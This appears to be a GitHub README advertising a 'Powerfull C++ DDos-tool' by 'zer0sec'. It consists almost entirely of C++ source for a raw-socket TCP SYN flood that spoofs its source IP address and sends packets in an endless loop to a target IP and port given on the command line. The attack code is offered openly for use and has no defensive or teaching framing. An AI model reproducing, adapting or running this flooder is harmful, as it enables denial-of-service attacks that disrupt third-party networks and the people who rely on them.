 # Powerfull C++ DDos-tool
# C++ DDOS TOOL                                                                       zer0sec
 

#include <iostream>
#include <cstring>
#include <cstdlib>
#include <arpa/inet.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>

#define PACKET_SIZE 4096

using namespace std;

int main(int argc, char* argv[]) {
    if (argc < 3) {
        cout << "Usage: " << argv[0] << " <target IP> <target port>" << endl;
        return 1;
    }

    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
    if (sock < 0) {
        cout << "Failed to create socket" << endl;
        return 1;
    }

    const char* target_ip = argv[1];
    uint16_t target_port = atoi(argv[2]);

    sockaddr_in sin;
    sin.sin_family = AF_INET;
    sin.sin_port = htons(target_port);
    sin.sin_addr.s_addr = inet_addr(target_ip);

    char packet[PACKET_SIZE];
    memset(packet, 0, PACKET_SIZE);

    iphdr* iph = (iphdr*)packet;
    tcphdr* tcph = (tcphdr*)(packet + sizeof(iphdr));

    iph->version = 4;
    iph->ihl = 5;
    iph->tos = 0;
    iph->tot_len = sizeof(iphdr) + sizeof(tcphdr);
    iph->id = htonl(54321);
    iph->frag_off = 0;
    iph->ttl = 255;
    iph->protocol = IPPROTO_TCP;
    iph->check = 0;
    iph->saddr = inet_addr("192.168.1.1");
    iph->daddr = sin.sin_addr.s_addr;

    tcph->source = htons(1234);
    tcph->dest = htons(target_port);
    tcph->seq = 0;
    tcph->ack_seq = 0;
    tcph->doff = 5;
    tcph->syn = 1;
    tcph->window = htons(32767);
    tcph->check = 0;
    tcph->urg_ptr = 0;

    sockaddr_in sin2;
    sin2.sin_family = AF_INET;
    sin2.sin_port = htons(80);
    sin2.sin_addr.s_addr = inet_addr("192.168.1.1");

    while (true) {
        if (sendto(sock, packet, sizeof(iphdr) + sizeof(tcphdr), 0, (sockaddr*)&sin, sizeof(sin)) < 0) {
            cout << "Failed to send packet" << endl;
            break;
        }

        if (sendto(sock, packet, sizeof(iphdr) + sizeof(tcphdr), 0, (sockaddr*)&sin2, sizeof(sin2)) < 0) {
            cout << "Failed to send packet" << endl;
            break;
        }
    }

    return 0;
}
